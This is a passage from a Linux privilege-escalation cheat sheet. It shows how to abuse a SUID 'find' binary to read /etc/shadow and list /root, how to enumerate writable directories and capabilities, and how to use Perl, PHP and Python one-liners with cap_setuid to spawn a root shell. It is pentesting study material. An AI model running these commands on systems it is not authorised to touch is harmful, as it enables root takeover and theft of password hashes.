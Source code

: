     If you'll get some SUID files, research the information of them using **[GTFOBins](https://gtfobins.github.io/){:target="_blank"}**.

    - **Find**

        If the "find" command is set as SUID, you can execute some commands as root privileges.

        ```sh
        find ./ -exec "whoami" \;
        find /etc/shadow -exec cat {} \;
        find /root -exec ls -al {} \;
        ```

7. **Find Writable Directories**

    ```sh
    find / -writable 2>/dev/null | cut -d "/" -f 2,3 | sort -u
    ```

8. **Find Capabilities**

    ```sh
    getcap -r / 2>/dev/null
    ```

    If you got the capabilities of "cap_setuid" from the output like the following, you may be able to get the root privileges.

    ```sh
    # Perl (ex. /usr/bin/perl = cap_setuid+ep)
    perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'

    # PHP
    php -r "posix_setuid(0); system('$CMD');"

    # Python (ex. /usr/bin/python = cap_setuid+ep)
    python -c 'import os; os.setuid(0); os.system("/bin/bash")'
    ```

    - **Sec Capabilities**

        ```sh
        setcap cap_setuid+ep /path/to/binary
        ```

        If you found the **setcap** with **SUID**, you can manipulate commands like Python.

        ```sh
        cp /usr/bin/python3 /home/<current-user>/python3
        setcap cap_setuid+ep /home/<current-user>/python3
        ```

        Then get a root shell.
